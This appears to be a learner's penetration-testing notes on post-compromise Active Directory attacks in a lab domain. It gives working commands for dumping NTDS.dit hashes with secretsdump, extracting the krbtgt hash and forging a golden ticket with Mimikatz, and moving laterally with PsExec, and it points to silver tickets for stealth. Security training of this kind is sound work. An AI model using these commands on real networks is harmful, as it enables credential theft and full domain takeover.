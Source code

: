 
## Compromised the Domain - Now What?
 
 - [ ] Post-Domain Compromise Attack Strategy 

```
If we compromise the domain controller on day one, we need to put our
blinders on and go do it again.
```

![[Pasted image 20241116140123.png]]



 - [ ] Dumping the NTDS.dit 

```
secretsdump.py MARVEL.local/pparker:'Password2'@192.168.138.132 -just-dc-ntlm
```

```
You never have to worry about PC passwords cuz if we were going to
crack anything, we would not include PC passwords.
```


- [ ] Golden Ticket Attacks

![[Pasted image 20241116223136.png]]


We can utilize Mimikatz to obtain the information necessary to perform this attack.

```
mimikatz.exe
```

```
privilege::debug
```

```
lsadump::lsa /inject /name:krbtgt
```


We need SID of Domain & NTLM of krbtgt

```
kerberos::golden /User:Administrator  /domain:marvel.local /sid:S-1-5-21-1232359821-2011282127-2883546489 /krbtgt:5dbde4a7fe0e1cced076a9a3ff2128ad /id:500 /ptt
```


If Golden ticket gets picked up and want to get stealthier than look into the what a silver ticket is
https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets

```
dir \\10.0.0.25\C$
```

```
PsExec64.exe \\10.0.0.25 cmd.xex 
```




- [ ] Additional Active Directory Attacks

